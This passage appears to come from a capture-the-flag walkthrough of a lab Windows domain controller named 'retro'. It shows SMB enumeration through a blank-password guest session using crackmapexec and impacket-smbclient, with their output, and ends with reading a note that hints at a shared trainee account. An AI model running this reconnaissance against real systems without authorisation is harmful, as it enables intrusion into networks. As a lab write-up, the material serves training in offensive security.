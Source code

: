 Since LDAP has failed us, we can continue by enumerating SMB. The very first thing we can try is to provide blank credentials, however this time it fails. What we can do is to provide a username (any username) and a blank password for a guest session. Using `crackmapexec` we can see that it indeed works and we can list the shares.

```
➜  retro crackmapexec smb 10.10.106.112 -u 'guest' -p '' --shares
SMB         10.10.106.112      445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.106.112      445    DC               [+] retro.vl\guest: 
SMB         10.10.106.112      445    DC               [+] Enumerated shares
SMB         10.10.106.112      445    DC               Share           Permissions     Remark
SMB         10.10.106.112      445    DC               -----           -----------     ------
SMB         10.10.106.112      445    DC               ADMIN$                          Remote Admin
SMB         10.10.106.112      445    DC               C$                              Default share
SMB         10.10.106.112      445    DC               IPC$            READ            Remote IPC
SMB         10.10.106.112      445    DC               NETLOGON                        Logon server share 
SMB         10.10.106.112      445    DC               Notes                           
SMB         10.10.106.112      445    DC               SYSVOL                          Logon server share 
SMB         10.10.106.112      445    DC               Trainees        READ            
```

There are two shares that are not default: `Notes` and `Trainees`. However, we only have read permissions to read the Trainees share. We can use `impacket-smbclient` to use the explore the Trainees share.

```
➜  retro impacket-smbclient guest@10.10.106.112 -no-pass
Impacket v0.11.0 - Copyright 2023 Fortra

Type help for list of commands
# use Trainees
# ls
drw-rw-rw-          0  Mon Jul 24 00:16:11 2023 .
drw-rw-rw-          0  Wed Jul 26 11:54:14 2023 ..
-rw-rw-rw-        288  Mon Jul 24 00:16:11 2023 Important.txt
```

Inside the share there is only one text file named `Important.txt` Let's take a look at it's contents.

```
# cat important.txt
Dear Trainees,

I know that some of you seemed to struggle with remembering strong and unique passwords.
So we decided to bundle every one of you up into one account.
Stop bothering us. Please. We have other stuff to do than resetting your password every day.

Regards

The Admins
```

